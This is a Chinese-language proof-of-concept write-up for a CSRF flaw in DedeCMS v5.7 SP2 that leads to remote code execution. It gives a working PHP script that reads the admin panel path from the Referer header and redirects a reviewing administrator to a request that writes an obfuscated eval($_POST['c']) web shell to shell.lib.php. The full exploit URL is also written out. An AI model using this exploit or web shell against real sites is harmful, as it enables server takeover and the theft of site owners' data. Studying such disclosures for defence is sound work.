





# DedeCMS_v5.7_友情链接CSRF_GetShell

## Affected Version

DedeCMS-V5.7-UTF8-SP2  （ 发布日期  2017-03-15 ）

下载地址： 链接: https://pan.baidu.com/s/1bprjPx1 密码: mwdq

## PoC

该版本在新建&修改标签功能（可以写PHP文件到本地）存在CSRF漏洞，通过申请友情链接的方式，诱使管理员点击，从而从 Referer 中拿到 后台路径，进而以管理员的身份写一句话到服务器上 GetShell 。

测试：

1. 申请友链

2. 编辑 友链 信息

dedecms_csrf.php 的内容如下：

    <?php
    $referer = $_SERVER['HTTP_REFERER'];
    $dede_login = str_replace("friendlink_main.php","",$referer);//去掉friendlink_main.php，取得dede后台的路径
    $muma = '<'.'?'.'@'.'e'.'v'.'a'.'l'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'\''.'c'.'\''.']'.')'.';'.'?'.'>';
    $exp = 'tpl.php?action=savetagfile&actiondo=addnewtag&content='. $muma .'&filename=shell.lib.php';
    $url = $dede_login.$exp;
    header("location: ".$url);
    exit();

3. 管理员登陆后台后 对 友链进行审核

4. 审核的时候一般都会点击 地址 看一下网站的内容，由于友链中使用了header 跳转，所以结果其实是访问了 `http://localhost/DedeCMS/DedeCMS-V5.7-GBK-SP2-20170315/uploads/dede/tpl.php?action=savetagfile&actiondo=addnewtag&content=%3C?@eval($_POST[%27c%27]);?%3E&filename=shell.lib.php` 请求。

5. 查看写入到服务器的一句话 `shell.lib.php`

## References

1. http://0day5.com/archives/4209/
